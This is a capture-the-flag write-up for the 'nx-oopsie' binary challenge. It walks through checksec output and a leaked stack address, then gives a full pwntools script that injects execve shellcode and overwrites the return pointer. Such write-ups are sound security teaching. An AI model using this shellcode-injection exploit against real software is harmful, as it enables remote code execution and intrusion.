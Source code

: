 # nx-oopsie

## Description

Attack this binary and get the flag!

```nc challenges.tamuctf.com 7234```

## Solution

```text
❯ checksec nx-oopsie
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

We have a 64 bit binary with no canary, writable/executable segments, and the name "nx-oopsie".  It seems pretty likely that we'll be executing shellcode on the stack.  Running the binary prints

```text
❯ ./nx-oopsie
Psst! I heard you might need this...: 0x7ffd07890fc0
What's your name? Teddy
Hi Teddy
! Pleased to meet you.
```

The address it prints is in the right range to be the stack and a quick check with gdb shows that address is 64 bytes after the location our input is saved in.  All we need to do is use the leaked address to calculate our shellcode location, feed the program shellcode as input, and then overwrite the saved return pointer with the location of our shellcode.  

```python
from pwn import *

BUF_SIZE = 72

p = process("./nx-oopsie")

stack_addr = int(p.recvline().decode().split(":")[1][1:],16)
# http://shell-storm.org/shellcode/files/shellcode-806.php
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05".ljust(BUF_SIZE, b'a')
payload += p64(stack_addr - 64)
p.sendline(payload)
p.interactive()
```